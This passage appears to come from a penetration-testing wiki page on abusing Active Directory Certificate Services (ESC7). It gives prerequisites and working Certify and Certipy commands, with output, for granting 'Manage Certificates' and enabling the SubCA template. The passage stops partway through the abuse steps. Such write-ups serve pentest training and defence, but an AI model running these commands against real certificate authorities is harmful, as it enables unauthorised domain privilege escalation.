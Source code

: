 ```powershell
Certify.exe download /ca:dc.domain.local\theshire-DC-CA /id:336
```

### Attack 2

#### Explanation

{% hint style="warning" %}
In the **previous attack** **`Manage CA`** permissions were used to **enable** the **EDITF\_ATTRIBUTESUBJECTALTNAME2** flag to perform the **ESC6 attack**, but this will not have any effect until the CA service (`CertSvc`) is restarted. When a user has the `Manage CA` access right, the user is also allowed to **restart the service**. However, it **does not mean that the user can restart the service remotely**. Furthermore, E**SC6 might not work out of the box** in most patched environments due to the May 2022 security updates.
{% endhint %}

Therefore, another attack is presented here.

Perquisites:

* Only **`ManageCA` permission**
* **`Manage Certificates`** permission (can be granted from **`ManageCA`**)
* Certificate template **`SubCA`** must be **enabled** (can be enabled from **`ManageCA`**)

The technique relies on the fact that users with the `Manage CA` _and_ `Manage Certificates` access right can **issue failed certificate requests**. The **`SubCA`** certificate template is **vulnerable to ESC1**, but **only administrators** can enroll in the template. Thus, a **user** can **request** to enroll in the **`SubCA`** - which will be **denied** - but **then issued by the manager afterwards**.

#### Abuse

You can **grant yourself the `Manage Certificates`** access right by adding your user as a new officer.

```bash
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'John' on 'corp-DC-CA'
```

The **`SubCA`** template can be **enabled on the CA** with the `-enable-template` parameter. By default, the `SubCA` template is enabled.

```bash
# List templates
certipy ca -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -enable-template 'SubCA'
## If SubCA is not there, you need to enable it

# Enable SubCA
certipy ca -ca 'corp-DC-CA' -enable-template SubCA -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'corp-DC-CA'
```
